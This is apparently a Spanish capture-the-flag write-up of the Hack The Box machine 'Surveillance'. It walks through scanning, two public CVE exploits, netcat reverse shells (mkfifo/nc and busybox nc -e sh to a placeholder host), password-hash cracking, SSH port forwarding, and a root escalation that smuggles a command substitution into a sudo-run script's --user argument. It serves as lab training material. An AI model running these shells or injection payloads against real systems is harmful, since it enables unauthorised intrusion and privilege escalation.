Surveillance
- Realizo un escaneo de NMAP para ver que puertos están abiertos nmap -Pn -sC -sV -p- --open <IP> -oN scan.txt
- Están abiertos los piertos 22 (OpenSSH 8.9p1) y 80 (nginx 1.18.0)
- No encuentra la pagina web por lo que la añadimos a los dominions /etc/hosts

- Realizo un escaneo de directorios para ver si encuentra algún login o algo interesante gobuster dir -u http://surveillance.htb/ -w /usr/share/wordlists/dirb/big.txt
- Encuentro el directorio /admin/login
- Buscando en el código de la página web encuentro un enlace a un repositorio de github

- Por lo que parece ser tenemos la versión
- Encuentro el CVE-2023-41892 que permite RCE
- Ya tenemos un reverse shell

- Mi siguiente objetivo será tener un reverse shell más estable
- Creo un reverse con msfvenom msfvenom -p cmd/unix/reverse_netcat LHOST=<IP> LPORT=<PORT> R
- Y nos devuelve el código que tenemos que ejecutar mkfifo /tmp/ypev; nc <IP> <PORT> 0</tmp/ypev | /bin/sh >/tmp/ypev 2>&1; rm /tmp/ypev
- Obtengo el shell en mi netcat
- Upgradeo el shell para que sea más interactivo con Python python3 -c 'import pty; pty.spawn("/bin/bash")'
- Encuentro dos usuarios. Matthew u zoneminder
- Encuentro un archivo que puede contener información importante

- Me mando el archivo a mi máquina

- 
- Busco los usuarios que encontre en el archivo sql
- Encuentro un hash
- Uso hash id para ver que tipo de hash es y poder crackearlo
- Después de crackear el hash obtengo la contraseña y entro con el usuario matthew
- Lo hago a través de ssh para tener una conexión buena y estable
- Encuentro la flag user.txt en el directorio home de matthew
- Parece ser que hay una app llamada zoneminder
- Parece ser que se está ejecutando en otro puerto
- Debe estar en otra red por lo que usaré la máquina que ataqué para hacer un portforwarding a través de ssh. ssh -L 4444:127.0.0.1:8080 matthew@surveillance.htb
- Ahora si que podemos acceder a esta página
- Ahora tengo que buscar la versión de zoneminder para ver si puedo usar un exploit para obtener un RCE
- Encuentro el CVE-2023-26035
- Obtengo un reverse shell
- Con sudo -l encuentro que se puede ejecutar este comando como root
- Creo un reverse en /tmp echo '#!/bin/bash busybox nc <IP> <PORT> -e sh' > myscript.sh
- lo paso a la maquina atacada y le asigno permisos
- Ejecuto este comando para poder escalar privilegios sudo /usr/bin/zmupdate.pl --version=1 --user='$(/tmp/reverse.sh)' --pass=ZoneMinderPassword2023
- Obtengo la flag root